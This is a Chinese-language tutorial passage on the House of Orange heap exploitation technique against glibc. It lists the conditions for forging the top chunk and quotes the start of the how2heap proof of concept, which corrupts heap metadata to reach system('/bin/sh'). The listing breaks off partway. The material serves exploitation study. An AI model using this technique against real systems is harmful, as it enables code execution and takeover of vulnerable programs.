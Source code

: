 堆溢出伪造时注意：

*   保证原本 old top chunk 的 size 大于 MINSIZE
*   保证原本 old top chunk 的 prev\_inuse 位是 1
*   原本 old top chunk 的地址加上其 size 之后的地址要与页对齐 也就是 address&0xfff=0x000。
*   old chunk 的 size 要小于申请的堆块大小加上 MINSIZE

注意：如果申请的堆块大小大于 0x20000，那么申请到的将会是 mmap 映射出来的内存而不会拓展 topchunk 了

## 组合拳

虽然 House of orange 似乎只能构造一个 unsortedbin chunk，但是他和 unsortedbin 以及 FSOP 的组合拳却能造成无比强大的攻击效果

**样例：how2heap 中的 House of orange**

### 源码

```bash
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner ( char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;

    fprintf(stderr, "The attack vector of this technique was removed by changing the behavior of malloc_printerr, "
        "which is no longer calling _IO_flush_all_lockp, in 91e7cf982d0104f0e71770f5ae8e3faf352dea9f (2.26).\n");

    fprintf(stderr, "Since glibc 2.24 _IO_FILE vtable are checked against a whitelist breaking this exploit,"
        "https://sourceware.org/git/?p=glibc.git;a=commit;h=db3476aff19b75c4fdefbe65fcd5f0a90588ba51\n");

    /*
      Firstly, lets allocate a chunk on the heap.
    */

    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;

    p2 = malloc(0x1000);

    io_list_all = top[2] + 0x9a8;

    top[3] = io_list_all - 0x10;

    /*
      At the end, the system function will be invoked with the pointer to this file pointer.
      If we fill the first 8 bytes with /bin/sh, it is equivalent to system(/bin/sh)
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;
    FILE *fp = (FILE *) top;


    /*
```
